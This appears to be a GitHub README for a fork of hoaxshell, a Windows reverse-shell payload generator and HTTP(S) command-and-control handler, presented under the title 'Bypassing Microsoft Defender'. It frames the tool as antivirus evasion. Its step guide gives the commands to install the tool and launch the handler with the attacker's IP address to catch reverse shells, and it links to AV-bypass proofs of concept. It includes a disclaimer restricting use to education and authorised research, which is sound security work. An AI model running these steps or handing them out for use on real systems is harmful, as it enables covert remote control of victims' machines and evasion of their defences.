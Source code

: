 <h1 style="font-size:10vw" align="left">Bypassing Microsoft Defender</h1>

[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v5.1-blue">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux%202023.2-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
Very grateful to the original author [t3l3machus](https://github.com/t3l3machus)


## Description
hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

<body align="center">![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)</body>

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![Animation](https://github.com/asepsaepdin/CVE-2010-1240/assets/122620685/2bbfd368-ecbf-44a2-88dd-a95add3e886c)


## Step Guides
1. First, install all the requirements
```
sudo pip3 install -r requirements.txt
```
2. Make the script executable
```
chmod +x hoaxshell.py
```
3. Execute the script and specify  the **-s 192.168.25.72** with the perpetrator's address
```
./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
```


## Exploit Requirements
- Python 3.11


## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
